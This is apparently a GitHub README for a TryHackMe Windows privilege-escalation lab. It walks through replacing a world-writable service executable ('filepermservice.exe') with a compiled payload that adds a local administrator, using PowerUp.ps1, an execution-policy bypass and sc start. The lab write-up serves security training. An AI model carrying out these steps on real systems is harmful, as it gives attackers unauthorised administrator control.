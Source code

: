 # service-escalation-executable-files

*credit to THM* | https://tryhackme.com/room/windowsprivescarena

1) Start PowerShell:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> powershell -ep bypass`

2) Run *PowerUp.ps1*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> . ./PowerUp.ps1`
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> Invoke-AllChecks`

* Note that the 'Everyone' user group has full permissions on the 'filepermservice.exe' service executable.

3) Start *pyftpdlib* on Kali:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ python3 -m pyftpdlib -p 21 --write`

* Note: if pyftpdlib is not installed do the following:

[![Image of install](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/install.png)](#)

4) Copy *windows_service.c* from windows machine:

[![Image of ftp](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/ftp.png)](#)

* Observe *windows_service.c* was received by the FTP server on Kali

[![Image of upload](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/upload.png)](#)

5) Edit *windows_service.c* to include the command to add a new user:

[![Image of edit](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/edit.png)](#)

6) Compile *windows_service.c*:

[![Image of compile](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/compile.png)](#)

* Note: install *gcc-wingw-w64* if it is not installed

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ sudo apt-get install gcc-mingw-w64`

7) Transfer *filepermservice.exe* to windows victim machine:

[![Image of transfer](https://github.com/kam1n0/service-escalation-executable/blob/master/tmp_upload/transfer.png)](#)

8) Copy *filepermservice.exe* to C:\Program Files\File Permissions Service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> cp filepermservice.exe C:\Program Files\File Permissions Service`

9) Start *filepermsvc* service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> sc start filepermsvc`

10) Confirm that the user was added to the local administrators group by typing the following:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> net localgroup administrators`
